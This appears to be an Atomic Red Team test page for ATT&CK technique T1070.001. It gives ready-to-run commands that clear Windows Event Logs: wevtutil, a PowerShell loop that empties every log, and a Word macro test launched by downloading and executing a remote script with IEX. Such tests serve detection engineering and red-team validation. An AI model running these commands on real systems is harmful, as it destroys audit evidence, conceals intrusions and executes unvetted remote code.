 # T1070.001 - Indicator Removal on Host: Clear Windows Event Logs

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1070/001)

<blockquote>Adversaries may clear Windows Event Logs to hide the activity of an intrusion. Windows Event Logs are a record of a computer's alerts and notifications. There are three system-defined sources of events: System, Application, and Security, with five event types: Error, Warning, Information, Success Audit, and Failure Audit.

The event logs can be cleared with the following utility commands:

- <code>wevtutil cl system</code>
- <code>wevtutil cl application</code>
- <code>wevtutil cl security</code>

These logs may also be cleared through other mechanisms, such as the event viewer GUI or [PowerShell](https://attack.mitre.org/techniques/T1059/001). For example, adversaries may use the PowerShell command <code>Remove-EventLog -LogName Security</code> to delete the Security EventLog and after reboot, disable future logging. Note: events may still be generated and logged in the .evtx file between the time the command is run and the reboot.(Citation: disable_win_evt_logging)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Clear Logs](#atomic-test-1---clear-logs)

- [Atomic Test #2 - Delete System Logs Using Clear-EventLog](#atomic-test-2---delete-system-logs-using-clear-eventlog)

- [Atomic Test #3 - Clear Event Logs via VBA](#atomic-test-3---clear-event-logs-via-vba)

<br/>

## Atomic Test #1 - Clear Logs

Upon execution this test will clear Windows Event Logs. Open the System.evtx logs at C:\Windows\System32\winevt\Logs and verify that it is now empty.

**Supported Platforms:** Windows

**auto_generated_guid:** e6abb60e-26b8-41da-8aae-0c35174b0967

#### Inputs:

| Name     | Description                 | Type   | Default Value |
| -------- | --------------------------- | ------ | ------------- |
| log_name | Windows Log Name, ex System | string | System        |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
wevtutil cl #{log_name}
```

<br/>
<br/>

## Atomic Test #2 - Delete System Logs Using Clear-EventLog

Clear event logs using built-in PowerShell commands.
Upon successful execution, you should see the list of deleted event logs
Upon execution, open the Security.evtx logs at C:\Windows\System32\winevt\Logs and verify that it is now empty or has very few logs in it.

**Supported Platforms:** Windows

**auto_generated_guid:** b13e9306-3351-4b4b-a6e8-477358b0b498

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$logs = Get-EventLog -List | ForEach-Object {$_.Log}
$logs | ForEach-Object {Clear-EventLog -LogName $_ }
Get-EventLog -list
```

<br/>
<br/>

## Atomic Test #3 - Clear Event Logs via VBA

This module utilizes WMI via VBA to clear the Security and Backup eventlogs from the system.

Elevation is required for this module to execute properly, otherwise WINWORD will throw an "Access Denied" error

**Supported Platforms:** Windows

**auto_generated_guid:** 1b682d84-f075-4f93-9a89-8a8de19ffd6e

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1070.001\src\T1070.001-macrocode.txt" -officeProduct "Word" -sub "ClearLogs"
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft Word must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```

<br/>
